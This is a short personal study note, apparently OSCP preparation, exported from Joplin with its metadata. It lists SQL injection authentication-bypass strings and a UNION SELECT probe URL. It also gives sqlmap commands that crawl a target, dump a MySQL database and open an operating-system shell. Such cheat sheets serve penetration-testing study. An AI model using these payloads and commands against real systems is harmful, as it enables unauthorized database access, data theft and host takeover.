 SQL Injection

Testing for Bypasses:

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

tom' or 1=1;#

# SQLMAP - Not allowed in OSCP

## sqlmap crawl

sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database

sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell

sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row:

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8

id: 576469a387224b88b3c2ffcd806a2cdf
parent_id: 17338627f6dc4ef4856d44508b33e0b1
created_time: 2019-11-27T02:41:46.688Z
updated_time: 2022-01-26T02:19:50.270Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1597752366033
user_created_time: 2019-11-27T02:41:46.688Z
user_updated_time: 2022-01-26T02:19:50.270Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1